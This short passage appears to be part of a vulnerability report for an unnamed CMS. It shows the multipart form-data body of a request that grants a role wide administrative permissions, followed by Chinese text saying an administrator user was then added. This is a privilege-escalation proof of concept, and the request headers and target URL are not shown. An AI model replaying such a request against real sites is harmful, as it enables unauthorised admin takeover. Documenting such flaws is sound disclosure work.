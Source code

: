 ```bash


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="open"

1
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="permit1"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="permit2"

["content&content","items&items","banner&banner","consult&consult","feedback&feedback","search&search","seo&seo","seo&violation","seo&rewrite","anchor&anchor","link&link","plugin&plugin","plugin&market","template&template","template&market","store&store","manager&manager","safe&safe","safe&backup","site&site","site&email","site&sms","site&code","menu&menu","language&language","site&state"]
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="permit3"

["content&content","items&items","banner&banner","consult&consult","feedback&feedback","search&search","plugin&plugin","safe&backup","site&site","site&code","menu&menu","language&language","site&state"]
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="permit4"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="image"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="alias"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="email"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="phone"


------WebKitFormBoundaryB067fgIWBKtHI4Gy--
```

然后去添加新用户。  
成功添加管理员用户
